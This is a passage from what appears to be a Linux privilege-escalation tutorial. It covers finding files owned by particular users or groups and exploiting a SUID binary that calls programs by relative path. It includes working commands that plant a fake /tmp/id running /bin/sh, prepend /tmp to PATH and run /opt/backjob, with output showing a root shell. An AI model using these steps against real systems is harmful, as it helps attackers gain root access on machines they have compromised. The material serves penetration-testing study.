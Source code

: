 After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

```none
find / -user username 2> /dev/null
find / -group groupname 2> /dev/null
```

Tip

Find files by wheel/ adm users or the users in the home directory. If the user is member of other groups (such as audio, video, disk), it might be a good idea to check for files owned by particular groups.

## Other Linux Privilege Escalation

### Execution of binary from Relative location than Absolute

If we figure out that a suid binary is running with relative locations (for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home")(figured out by running strings on the binary). The problem with this is, that it’s trying to execute a file/ script/ program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

Something like this:

```none
system("/usr/bin/env echo and now what?");
```

so we can create a file in temp:

```none
echo "/bin/sh" >> /tmp/id
chmod +x /tmp/id
```

```none
www-data@yummy:/tmp$ echo "/bin/sh" >> /tmp/id
www-data@yummy:/tmp$ export PATH=/tmp:$PATH
www-data@yummy:/tmp$ which id
/tmp/id
www-data@yummy:/tmp$ /opt/backjob
whoami
root
# /usr/bin/id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is:

- /opt/backjob switches user context to root (as it is suid) and tries to run “scp or id”
- Linux searches the filesystem according to its path (here: in /tmp first)
- Our malicious /tmp/scp or /tmp/id gets found and executed as root
- A new bash opens with root privileges.
